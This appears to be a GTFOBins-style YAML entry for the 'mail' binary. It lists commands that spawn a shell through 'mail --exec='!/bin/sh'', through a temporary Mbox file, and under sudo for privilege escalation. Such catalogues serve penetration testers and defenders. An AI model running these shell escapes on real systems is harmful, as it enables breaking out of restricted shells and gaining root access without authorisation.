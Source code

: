 ```yaml
---
functions:
  shell:
    - description: GNU version only.
      code: mail --exec='!/bin/sh'
    - description: This creates a valid Mbox file which may be required by the binary.
      code: |
        TF=$(mktemp)
        echo "From nobody@localhost $(date)" > $TF
        mail -f $TF
        !/bin/sh
  sudo:
    - description: GNU version only.
      code: sudo mail --exec='!/bin/sh'
---
```

